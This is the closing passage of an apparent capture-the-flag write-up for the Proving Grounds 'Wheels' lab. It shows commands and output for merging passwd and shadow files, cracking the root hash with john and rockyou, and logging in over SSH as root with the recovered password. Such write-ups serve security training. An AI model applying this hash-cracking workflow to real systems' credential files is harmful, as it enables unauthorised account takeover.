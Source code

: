 Use the `unshadow` tool to combine the passwd and shadow file together which later can be used to crack the hashes using john.

```sh
naveenj@hackerspace:|01:08|~/proving_grounds/Wheels$ unshadow passwd shadow > crackme 
naveenj@hackerspace:|01:08|~/proving_grounds/Wheels$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
highschoolmusical (root)     #root password
1g 0:00:05:00 5.27% (ETA: 02:44:00) 0.003327g/s 2877p/s 2899c/s 2899C/s marquie1..marlai
```

SSH to root using the credential `root:highschoolmusical`.

```sh
naveenj@hackerspace:|02:52|~/proving_grounds/Wheels$ ssh root@192.168.196.202
root@192.168.196.202's password: 
Last login: Sun Oct  8 05:09:27 2023 from 192.168.45.153
root@wheels:~# 
```

**Root Obtained**

## References

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md#exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md#exploitation)
- [https://book.hacktricks.xyz/pentesting-web/xpath-injection#string-extraction](https://book.hacktricks.xyz/pentesting-web/xpath-injection#string-extraction)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).